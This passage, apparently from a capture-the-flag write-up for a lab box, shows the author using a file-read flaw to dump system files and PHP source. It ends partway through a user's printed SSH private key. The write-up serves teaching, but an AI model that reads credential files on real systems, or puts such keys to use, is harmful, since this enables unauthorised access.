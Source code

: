 After waiting a minute, I get just the one file:

    
    
    book> /etc/lsb-release
    DISTRIB_ID=Ubuntu       DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic DISTRIB_DESCRIPTION="Ubuntu
    18.04.2 LTS"
    

Additionally, the spacing is a bit messed up. Above, the file should look
like:

    
    
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic
    DISTRIB_DESCRIPTION="Ubuntu 18.04.2 LTS"
    

Some of the whitespace gets messed up.

Finally, some of the PHP files don’t exfil well at all:

    
    
    book> /var/www/html/index.php
    prepare("select email   from    users   where   email=?");      $stmt-
    >bind_param('s',$_POST["email"]);       $stmt->execute();       $result =       $stmt-
    >get_result();  $num_rows=$result->num_rows;    if($num_rows    >       0)      {
    echo    '
    book>
    

`/var/www/html/db.php` returns nothing (and breaks the shell).

### File System Enumeration

After failing to read the php source, I thought about what else I might grab.
Since I could see the `/etc/passwd` file, I knew that reader was the only
interactive user on the box. I checked for an SSH key, and got a hit:

    
    
    book> /home/reader/.ssh/id_rsa
    -----BEGIN      RSA     PRIVATE KEY-----
    MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
    G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
    WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
    ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
    7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
    75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
    3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
    McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
    tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
    jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
    7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
    GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
    E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
    ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
    SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
    skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
    o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
    Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
    hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
    Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
    sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
    tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
    5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
    y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
    nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=